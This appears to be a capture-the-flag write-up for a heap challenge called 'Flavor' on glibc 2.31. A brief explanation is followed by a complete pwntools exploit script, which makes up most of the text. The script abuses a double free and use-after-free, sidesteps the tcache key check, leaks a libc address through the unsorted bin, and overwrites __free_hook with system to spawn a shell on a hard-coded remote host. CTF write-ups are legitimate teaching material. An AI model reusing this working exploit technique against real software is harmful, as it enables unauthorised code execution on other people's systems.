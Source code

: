 ​Flavor was a heap challenge,

basically double free on libc-2.31, with an uaf ..

The solution was to allocate a 0x40 bloc in tcache, and a bloc of 0x90 next to him.

Free the 0x40 bloc  7 times by modifying it's bloc key to avoir double free like

in [this explanation](https://github.com/StarCross-Tech/heap_exploit_2.31/blob/master/tcache_double_free.c)

then free it one more time to make it goes to unsorted, and leak libc address..

then we double free the 0x90 bloc previously allocated...

then use it to write over _free_hook...

**like this:
**
```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF('./vuln')
libc = ELF('./libc.so.6')

host, port = "206.189.113.236", "30674"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)

def buy(id):
  p.sendlineafter('> ', 'b')
  p.sendlineafter('ID:\n', str(id))

def Buy(id):
  p.sendlineafter('> ', 'B')
  p.sendlineafter('ID:\n', str(id))


def sell(idx):
  p.sendlineafter('> ', 's')
  p.sendlineafter('index?\n', str(idx))

def edit(idx,price,name):
  p.sendlineafter('> ', 'e')
  p.sendlineafter('index?\n', str(idx))
  p.sendlineafter('price:\n', str(price))
  p.sendlineafter('name:\n', name)

def view(idx):
  p.sendlineafter('> ', 'v')
  p.sendlineafter('index?\n', str(idx))

Buy(0)	# 0
buy(0)  # 1
Buy(0)  # 2

# fill tcache 0x40 line (changing bloc key to avoid double free detection)
for i in range(7):
  sell(1)
  edit(1, 64,'pipo')

# next one goes in unsorted
sell(1)

# leak libc address
view(1)
p.recvuntil('ID: ')
leak1 = int(p.recvuntil('\n',drop=True),10)
print('leak libc = '+hex(leak1))
libc.address = leak1 - 0x1ebbe0
print('libc base = '+hex(libc.address))

for i in range(3):
  sell(2)
  edit(2, 64,'pipo')

# we overwrite __free_hook with system
Buy(libc.symbols['__free_hook'])	# 3
Buy(u64(b'/bin/sh\x00'))		# 4
Buy(libc.symbols['system'])		# 5

# system('/bin/sh')
sell(4)

p.interactive()
```

*nobodyisnobody still pwning things..*

